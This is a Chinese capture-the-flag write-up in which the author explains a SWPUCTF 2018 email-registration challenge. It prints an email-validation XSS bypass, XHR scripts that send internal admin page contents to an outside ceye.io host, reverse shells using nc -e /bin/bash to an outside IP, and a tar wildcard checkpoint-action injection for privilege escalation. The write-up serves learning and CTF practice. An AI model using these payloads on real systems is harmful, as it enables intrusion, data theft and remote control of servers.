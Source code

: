 ```yaml
---
layout:     post
title:      第九届SWPUCTF-有趣的邮箱注册出题思路
subtitle:   
date:       2018-12-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - ctf
	-权限提升
---
```


 最后一届在学校举办的校赛，时间真快啊，马上毕业了，感谢@小东哥，@谢队等学弟的帮忙，这次线上线下的比赛也算圆满举行了。

## 0x01 出题思路
   之前看到有人发了个 FILTER_VALIDATE_EMAIL 的绕过，就想着出个XSS。用phantomJS去访问读取内网的资源，让他们通过XHR来读源码，后面的tar提权是@小东哥提供的思路。

## 0x02 WriteUp

check.php右键发现源码有php

```php
<!--check.php
if($_POST['email']) {
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL)){
echo "error email, please check your email";
}else{
echo "等待管理员自动审核";
echo $email;
}
}
?>
```
于是提交payload

```javascript
"aaa><script/src=http://sp4rk.cn:6324/duyuanma.js</script>"@a.aaa
```

```javascript
var a = new XMLHttpRequest();
a.open('GET', 'http://localhost:6324/admin/admin.php', false);
a.send(null);
b = a.responseText;
location.href = 'http://t15em7.ceye.io/d' + escape(b);
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc21os8yj31uk0bedhs.jpg)

可以看到admin/a0a.php下面有个命令执行，于是弹shell

```javascript
var a = new XMLHttpRequest();
a.open('GET', 'http://localhost:6324/admin/a0a.php?cmd=nc+-e+%2fbin%2fbash+118.89.56.208+6325', false);
a.send(null);
b = a.responseText;
location.href = 'http://t15em7.ceye.io/' + escape(b);
```
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc24rhq9j327g0m4wgi.jpg)
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2dtq22j310i0dyacd.jpg)
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ixq18j30r40eawfp.jpg)

上层的根目录有个4f0a5ead5aef34138fcbf8cf00029e7b，访问下

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ked1oj326w0mcjsp.jpg)

这里有个上传和备份文件

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2nngf2j30su0kaad7.jpg)

发现经过tar *处理，于是上传文件

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2rh67aj31hc0pmdn3.jpg)

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc2ww1olj31hw0h478z.jpg)

–checkpoint=1

–checkpoint-action=exec=sh exp.sh

exp.sh

```shell
nc -e /bin/bash 118.89.56.208 6325
```

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fc308rhxj30zm0a040x.jpg)